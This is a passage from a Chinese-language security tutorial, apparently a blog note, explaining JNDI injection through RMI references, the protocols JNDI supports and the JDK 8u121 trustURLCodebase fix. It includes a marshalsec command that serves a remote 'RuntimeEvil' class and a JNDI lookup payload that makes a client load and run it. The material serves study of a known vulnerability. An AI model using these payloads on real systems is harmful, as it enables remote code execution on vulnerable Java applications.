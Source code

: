 ![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240925165553736.png)



So，RMI只是返回了创建好的实例。如果JNDI绑定的是Reference，则会传递RefrenceWrapper封装的类，在客户端上解封装并从factoryLocation加载类并实例化。

如果不是Reference，当然不会在客户端实例化，也就不会调用构造函数

上述JNDI+RMI可以用marshalsec来起，注意marshalsec需要保证本机为JDK8

```java
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1:8888/#RuntimeEvil 1099
```

默认RMI为1099

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240925174614914.png)

lookup payload：

```java
rmi://127.0.0.1:1099/#RuntimeEvil
```

![marshalsec JNDI注入](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/marshalsec%20JNDI%E6%B3%A8%E5%85%A5.gif)







## JNDI other

JNDI支持四种协议，如下表。

| 协议  | 作用                                                         |
| ----- | ------------------------------------------------------------ |
| LDAP  | 轻量级目录访问协议，约定了 Client 与 Server 之间的信息交互格式、使用的端口号、认证方式等内容 |
| RMI   | JAVA 远程方法协议，该协议用于远程调用应用程序编程接口，使客户机上运行的程序可以调用远程服务器上的对象 |
| DNS   | 域名服务                                                     |
| CORBA | 公共对象请求代理体系结构                                     |

其中LDAP,RMI,CORBA都支持加载远程对象并实例化

根据不同的协议，这里获取到的Context不同

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240925171820187.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240925171844532.png)

比如RMI是获取到RegistryContext.class

* 8u121修复

jdni在8u121后，在加载factoryLocation时，对远程codebase不再信赖，默认trustURLCodebase为false。
